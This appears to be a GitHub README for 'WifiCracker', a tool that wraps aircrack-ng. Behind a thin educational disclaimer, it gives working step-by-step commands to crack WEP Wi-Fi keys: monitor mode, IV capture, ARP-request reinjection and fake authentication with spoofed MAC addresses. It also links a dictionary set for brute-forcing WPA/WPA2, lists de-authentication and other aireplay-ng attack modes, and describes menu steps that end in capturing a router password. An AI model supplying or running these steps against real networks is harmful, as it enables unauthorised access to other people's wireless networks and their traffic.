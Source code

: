 #<u>WifiCracker</u>
[![WifiCracker logo](https://s30.postimg.org/47hlfpgsh/2008_11_06_wifi.jpg)](#)<br><br>
#<b>*********************************************************************</b>
#<b>Disclaimer: I don't take any responsabilities over the use of this application, it's just for educational purposes</b>
#<b>*********************************************************************</b>

###Program works with WPA/WPA2 protocol using PSK authentication, for this option Dictionaries are needed for brute forcing. Also you can use the program with WEP Wifi's protocol, for this option you don't need any dictionary

###Remember you need to install 'aircrack-ng' and 'macchanger':

| Program  | command |
| ------------- | ------------- |
| **aircrack-ng**  | sudo apt-get install aircrack-ng  |
| **macchanger**  | sudo apt-get install macchanger  |

###Mediafire links for dictionaries: [Dictionaries](https://mega.nz/#F!PB0ljZwC!H1CdY80f0mrTS4AdUm3BZw)

##**WEP Protocol**

###To capture a **WEP** Wifi password you have to do the following steps:

###Step 1: The first step you have to do is active the **monitor mode**, same as WPA/WPA2 protocol

```airmon-ng start wlp2s0 or airmon-ng start wlan0```

###Step 2: Execute airodump-ng to save the IV packages (packages where the password travels)

```airodump-ng -w datos wlp2s0 or airodump-ng -w datos wlan0```

###where '-w datos' indicates the file name where data will be saved

###Each access point works in a channel (CH). To improve the attack, you can use '-c (CH)' to filter only AP data.

###For example:

```airodump-ng --ivs -w datos -c 11 wlp2s0 or airodump-ng --ivs -w datos -c 11 wlan0```

###Step 3: Now we just need to accelerate the capture IV's process through the injected traffic from the attacker's computer. To do this you will use the authenticated and associated client in the next step. Let capture an ARP-request packet, and then reinjected into the network to dramatically increase the number of IVs packets.

```aireplay-ng -3 -b MAC_AP -h MAC_FALSO_CLIENTE -x 600 wlp2s0 or aireplay-ng -3 -b MAC_AP -h MAC_FALSO_CLIENTE -x 600 wlan0```

###where '-3' indicates attack type and '-x 600' allow us to indicates the speed of the reinjected packages.

###Step 4: To inject packets you are going to authenticate and associate with a fictitious network client.

```aireplay-ng -1 10 -e NOMBREWIFI -a MAC_AP -h MAC_FALSO_CLIENTE wlp2s0```

###where '-1 10' indicates you are goint to send 10 authentication packages, '-a MAC_AP' indicates the MAC point acces adress and '-h MAC_FALSO_CLIENTE' indicates a fake MAC adress.

###Last Step: Now you can execute on another console **aircrack-ng** to analyze the IV's packages obtained by **airodump-ng** and stored in **datos-01.ivs** file.

```aircrack-ng -0 datos-01.ivs```

###The process can take about 10 minutes to WEP 64-bit passwords and 20 minutes for 128-bit WEP passwords. If you want to speed up the process you can indicate the length of the WEP password as follows:

```aircrack-ng -0 -n 64 datos-01.ivs```

###where '-n 64' indicates for example the length of WEP password.

###When aircrack-ng ends, he show us the WEP password on screen.

###Here you have a table for 'aireplay-ng' options

| Attack  | Function |
| ------------- | ------------- |
| **0**  | De-authentication  |
| **1**  | Fake authentication  |
| **2**  | Interactive selection of packages to send  |
| **3**  | ARP-request reinjection  |
| **4**  | Chopchop attack |
| **5**  | Fragmentation attack |
| **6**  | Caffe-late attack |
| **7**  | Fragmentation Attack (customer oriented) |
| **8**  | WPA Migration Mode |
| **9**  | Injection test |

###---------------------------------------------------------------------------------------------------------------------------

### All the process has to be done from 3 terminals. First you have to choose option 1, and then monitor interface is enabled. After that, you choose option 4 and after targetting a Wifi, you have to open a new terminal. Then execute the program again and (with Terminal 1 running) choose option 5 in Terminal 2. You have to wait 1 minute in option 5, and then press Ctrl+C. After that, open a new terminal and choose option 7 from Terminal 3 for finishing. If option 7 doesn't work, try again... that's because you need the user reconnects to the network.

###That's the error you could have

![Little Mistake](imgs/error.png)

###Otherwise, routter password appears

![Working Good](imgs/funciona.png)

###For option 6, you make a fake auth client. Sometimes, there are no clients connected to the network, so you have to create one tricking the routter. You can use your own mac to make fake authentications.

###Here you can see there are some clients connected, but particulary... i want to authenticate the client whose MAC adress is C8:38:70:59:31:4B:

![Unassociated](imgs/Unassociated.png)

###So doing option 6 look what happens with C8:38:70:59:31:4B, now it's connected to the network and you can start doing option 5 with this client:

![Unassociated](imgs/Associated.png)
